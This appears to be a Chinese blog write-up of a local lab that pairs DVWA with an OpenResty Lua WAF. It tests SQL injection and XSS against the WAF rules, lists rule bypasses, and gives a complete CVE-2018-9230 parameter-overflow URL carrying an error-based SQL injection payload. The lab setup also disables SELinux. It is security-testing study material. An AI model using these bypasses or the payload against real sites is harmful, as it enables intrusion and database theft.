前言
^_^
环境搭建
openresty安装
1 | yum install yum-utils |
nginx加载环境变量中
1 | echo "export PATH=$PATH:/usr/local/openresty/nginx/sbin" >> /etc/profile |
php
1 | yum install epel-release |
开启php-fpm
1 | systemctl start php-fpm |
mariadb
1 | yum install mariadb-server |
修改密码
1 | mysql -uroot -p |
更改nginx配置文件解析php
1 | location ~ \.php$ { |
启动nginx
1 | nginx -c /usr/local/openresty/nginx/conf/nginx.conf |

解决WEB应用权限问题
1 | setenforce 0 # 临时关闭 |
DVWA
项目使用DVWA,配置网上都有，改完配置记得重启php-fpm、nginx
waf
编辑nginx.conf
[waf下载地址](git clone https://github.com/unixhot/waf.git)

加载waf后，重启服务器nginx -s reload
1 | lua_load_resty_core off; |

SQL注入测试


SQL rule
规则写的有点次

绕过
规则其实bug挺多的，举几个如下
select.+(from|limit可以用大小写绕过
information_schema可以用mysql 5.7下特殊的字段绕过
反射XSS测试
看规则是防御相应的标签，但是并没有过滤完整。可以按照实际生产环境对增加一些危险字符如,更安全的方法是在web应用上进行html编码.
1 | /,\,`,",' |
XSS rule

测试<script标签

日志

绕过
大小写,空格等利用javascirpt语法特性
1 | <svg标签 |
CVE-2018-9230
查一查OpenResty框架有没有现成的cve
原理
该CVE利用参数溢出，只会处理前100个传入的参数，不会处理第101个参数

测试
直接传入select from未被拦截,利用报错注入
1 | http://localhost/DVWA-master/vulnerabilities/sqli/?a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&id=1%27%20or%20extractvalue%281,concat%280x7e,%28select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27dvwa%27%20limit%201,1%29,0x7e%29%29%23&Submit=Submit# |

结语
- 一些权限问题，这里没有太注意，很多都是root，后面需要改进
- 网上waf也存在绕过，需要多学习些trick
参考链接
https://blog.oldboyedu.com/nginx-waf/
https://www.cnblogs.com/wushuaishuai/p/9315611.html